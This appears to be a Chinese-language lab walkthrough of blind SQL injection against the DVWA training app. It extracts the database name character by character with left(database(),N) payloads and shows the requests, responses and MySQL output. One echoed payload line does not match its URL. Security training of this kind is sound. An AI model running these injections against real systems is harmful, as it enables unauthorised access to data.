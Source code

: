
##测试数据库名称第1个字符


http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20left(database(),1)=%27d%27%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and left(database(),1)='d' and '1'='1
First name: admin
Surname: admin
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and left(database(),1)='d' and '1'='1&Submit=确定
```


mysql中查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(database(),1)='d' and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>

```



##测试数据库名称第2个字符


http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20left(database(),2)=%27dv%27%20and%20%271%27=%271&Submit=%C8%B7%B6%A8

```
ID: 1' and left(database(),1)='dv' and '1'='1
First name: admin
Surname: admin
```

url解码后

```
http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1' and left(database(),2)='dv' and '1'='1&Submit=确定
```


mysql中查询结果

```
mysql> SELECT first_name, last_name FROM users WHERE user_id = '1' and left(database(),2)='dv' and '1'='1';
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

mysql>

```
